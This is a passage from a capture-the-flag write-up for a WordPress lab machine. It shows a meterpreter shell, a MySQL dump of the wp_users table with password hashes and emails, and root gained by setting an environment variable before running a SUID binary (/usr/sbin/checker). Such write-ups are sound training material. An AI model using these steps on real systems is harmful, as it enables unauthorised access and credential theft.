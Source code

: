 ```txt
/** Custom FS Method */
define('FS_METHOD', 'direct');
```

6. Spawn a shell in meterpreter with "shell" command and login to mysql:
```sh
mysql -h localhost -u wordpressuser -p
```

7. Check the wp_users table and get content
```txt
select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
|  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+

```
### Privilege escalation
1. Checking the SUID bits we can fins a file /usr/sbin/checker
2. Running *strings* on it we can check the logic and see there is a variable called *admin* based on which the role is set
3. Set export attribute for variable to 1 *export admin=1* and run the script again */usr/sbin/checker* will give you root rights
4. Get the root flag from /root/root.txt: *[RootFlag]*
5. Search for user.txt file and you will get the correct one in location /media/usb
6. Get the user flag: *[UserFlag]*